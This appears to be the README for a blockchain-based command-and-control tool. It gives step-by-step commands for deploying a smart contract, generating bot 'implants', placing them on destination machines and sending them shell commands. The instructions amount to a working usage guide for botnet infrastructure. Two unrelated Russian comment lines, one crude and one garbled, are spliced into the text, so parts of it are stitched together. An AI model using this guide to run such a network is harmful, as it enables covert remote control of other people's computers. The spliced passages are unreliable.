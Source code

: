 * Windows: visual studio build tools might be needed
// 17ГБ. Сколько порнухи мжно скочать вместо мелкомягкого ската, из которого ныжен только линкер.
### Dependencies
- see requirements.txt

# Usage 
Following instruction are for **linux**. For Windows just replace / with \ in paths
### Using the CLI
Convert `conf/` files to Linux path format:

`sed -i -e 's.\\./.g' conf/deployment/DeploymentConf.BASE.yaml && sed -i -e 's.\\./.g' conf/clientGen/ClientConf.BASE.yaml`

Edit the deployment script (optional):

`conf/deployment/DeploymentConf.BASE.yaml`

Run the server bootstrap script. It will generate owner account, run a local full geth node, deploy the smart contract and create all necessary configuration to run controller UI. Optional:

`export PYTHONPATH=./src && python3 src/Server/DeployUnstoppableCnC.py .`  (use -h for more options)

Run the server in interactive mode & use the `sc` object to issue commands:

`python3 -i src/Server/ServerCommands.py .`   (use -h for more options)

* Available commands: 
-- generateNewClientInstance (clientConfTemplateFile, fundValue, clientNodeRpcPort)
-- allowInstance (instanceAddress)
-- removeInstance (instanceAddress)
-- addWork (instanceAddress, command)
-- fundTransfer (instanceAddress, fundValue)

Generate a new bot client instance:

`>>> sc.generateNewClientInstance('conf/clientGen/ClientConf.TEMPLATE.yaml', 1000000000000000000, port=30304)`

Note the generated wallet address. Implant will be placed under `./generated/<GeneratedWalletAddress>`
Transfer the implant generated directory to destination machine and run it:

`export PYTHONPATH=./src && python3 -i ./src/Client/ClientCommands.py . ./conf/clientConf.yaml`   (use -h for more options)

Client will run its own node, sync in light mode, contact the contract and register with it. If successful, it will start a listener for incoming commands.

Once client has registered, back on the server side use interactive shell to add work to the client:
// Ну, закинуть кораковый код было бы пiзже. Ещё я не платил за это слоукод без side effects. А в MLIR сайд эффекты голливудские - даже евросеточку разгрыжает и парсеры JSON of the patriots удоляет вместе с кучей ненужнокода.
``` 
>>> sc.addWork('0xa55be06a805566d480103cea559c4d1bc3f729d2', 'echo awesome')
// ... log output
... confirmed match between instance issued command and result: ['echo awesome', 'awsome']
```
